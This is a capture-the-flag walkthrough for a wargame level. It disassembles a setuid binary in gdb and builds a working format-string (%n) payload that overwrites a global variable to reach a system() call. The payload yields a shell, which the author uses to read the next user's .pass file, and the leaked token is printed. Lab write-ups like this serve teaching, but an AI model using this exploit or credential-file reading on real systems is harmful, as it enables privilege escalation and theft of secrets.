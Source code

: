 # level3 walkthrough
Given setuid binary, lets disassemble it:

    (gdb) disass main
    Dump of assembler code for function main:
    0x0804851a <+0>:	push   ebp
    0x0804851b <+1>:	mov    ebp,esp
    0x0804851d <+3>:	and    esp,0xfffffff0
    0x08048520 <+6>:	call   0x80484a4 <v>
    0x08048525 <+11>:	leave
    0x08048526 <+12>:	ret
    End of assembler dump.

Main function just calls "v" function:

    (gdb) disass v
    Dump of assembler code for function v:
    0x080484a4 <+0>:	push   ebp
    0x080484a5 <+1>:	mov    ebp,esp
    0x080484a7 <+3>:	sub    esp,0x218
    0x080484ad <+9>:	mov    eax,ds:0x8049860
    0x080484b2 <+14>:	mov    DWORD PTR [esp+0x8],eax
    0x080484b6 <+18>:	mov    DWORD PTR [esp+0x4],0x200
    0x080484be <+26>:	lea    eax,[ebp-0x208]
    0x080484c4 <+32>:	mov    DWORD PTR [esp],eax
    0x080484c7 <+35>:	call   0x80483a0 <fgets@plt>
    0x080484cc <+40>:	lea    eax,[ebp-0x208]
    0x080484d2 <+46>:	mov    DWORD PTR [esp],eax
    0x080484d5 <+49>:	call   0x8048390 <printf@plt>
    0x080484da <+54>:	mov    eax,ds:0x804988c
    0x080484df <+59>:	cmp    eax,0x40
    0x080484e2 <+62>:	jne    0x8048518 <v+116>
    0x080484e4 <+64>:	mov    eax,ds:0x8049880
    0x080484e9 <+69>:	mov    edx,eax
    0x080484eb <+71>:	mov    eax,0x8048600
    0x080484f0 <+76>:	mov    DWORD PTR [esp+0xc],edx
    0x080484f4 <+80>:	mov    DWORD PTR [esp+0x8],0xc
    0x080484fc <+88>:	mov    DWORD PTR [esp+0x4],0x1
    0x08048504 <+96>:	mov    DWORD PTR [esp],eax
    0x08048507 <+99>:	call   0x80483b0 <fwrite@plt>
    0x0804850c <+104>:	mov    DWORD PTR [esp],0x804860d
    0x08048513 <+111>:	call   0x80483c0 <system@plt>
    0x08048518 <+116>:	leave
    0x08048519 <+117>:	ret
    End of assembler dump.

This function calls safe function fgets with buffer size contol, we can't abuse that.
Normally this program would just print buffer and exit, because of the cmp instruction.
This cmp instruction checks if global variable at address 0x804988c equals 0x40 (64 decimal) value.
Lets try to examine this variable:

    (gdb) x/x 0x804988c
    0x804988c <m>:	0x00000000
    (gdb) info sym 0x804988c
    m in section .bss

This is uninitialized global variable "m", that's why it is placed in bss section and initialized with zero.
If we manage to change value of this variable we would get to another part of the program with system function call which launches shell.
If we look closer at disassembly we would spot that printf is being called with buffer provided as format string which is unsafe.
Lets try to pass printf format options to find out how we can abuse this:

    level3@RainFall:~$ ./level3
    AAAA %p %p %p %p
    AAAA 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141

Because no arguments provided to the printf function call %p parameter would print values from stack.
We can see that there are three pointers, if we skip them by just printing them out then the next address on top of the stack would be the beginning of our buffer.
So if we provide instead of "AAAA" address of "m" global variable then we can overwrite it with %n parameter:

    level3@RainFall:~$ python -c 'print("\x8c\x98\x04\x08" + "%p%p%p%n")' > /tmp/level3/exploit
    level3@RainFall:~$ ./level3 < /tmp/level3/exploit
    �0x2000xb7fd1ac00xb7ff37d0

"%n" parameter overwrites provided address with number of bytes printed out.
To write in "m" global variable 64 value we need to find out how many bytes printf currently prints and add prefix with missing amount of random bytes:

    (gdb) b *v+59
    Breakpoint 1 at 0x80484df
    (gdb) run < /tmp/level3/exploit
    Starting program: /home/user/level3/level3 < /tmp/level3/exploit
    �0x2000xb7fd1ac00xb7ff37d0

    Breakpoint 1, 0x080484df in v ()
    (gdb) i r eax
    eax            0x1d	29

Our global variable currently holds 29 value, so wee need to prefix 35 bytes:

    level3@RainFall:~$ python -c 'print("\x8c\x98\x04\x08" + "a"*35 + "%p%p%p%n")' > /tmp/level3/exploit
    level3@RainFall:~$ cat /tmp/level3/exploit - | ./level3
    �aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa0x2000xb7fd1ac00xb7ff37d0
    Wait what?!
    whoami
    level4
    cat /home/user/level4/.pass
    b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa

Here is our token for the next level!
